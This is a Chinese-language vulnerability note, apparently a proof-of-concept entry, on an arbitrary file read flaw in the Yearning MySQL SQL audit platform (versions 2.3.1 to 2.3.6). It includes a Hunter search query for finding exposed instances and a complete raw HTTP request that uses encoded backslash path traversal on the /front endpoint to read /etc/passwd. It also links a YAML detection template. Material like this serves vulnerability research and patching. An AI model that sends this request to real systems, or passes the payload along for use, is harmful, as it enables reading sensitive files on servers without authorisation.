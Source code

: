 # Yearning front 接口存在任意文件读取漏洞

# 一、漏洞简介
Yearning是中国Henry Yee个人开发者的一个出色方便快捷的 Mysql SQL 审核平台。Yearning 2.3.1 版本、Interstellar GA 2.3.2 版本 和 Neptune 2.3.4 - 2.3.6 版本存在安全漏洞，该漏洞源于存在一个任意文件读取漏洞。攻击者可以利用该漏洞获取敏感信息。

# 二、影响版本
+ Yearning

# 三、资产测绘
+ hunter`app.name=="Yearning"`
+ 特征

![1704942004441-16159972-ed25-4bab-a118-7fbef2545a8f.png](./img/KycX1QqFLArvj1s9/1704942004441-16159972-ed25-4bab-a118-7fbef2545a8f-013917.png)

# 四、漏洞复现
```java
GET /front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1704942049555-f29e7a81-a72a-4237-b2a4-b988bd6e3857.png](./img/KycX1QqFLArvj1s9/1704942049555-f29e7a81-a72a-4237-b2a4-b988bd6e3857-921144.png)[yearning-front-readfile.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222142312-c41a9525-b4d6-40ae-8332-da2f36609f9e.yaml)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cvbgbkdvgfwckrxo>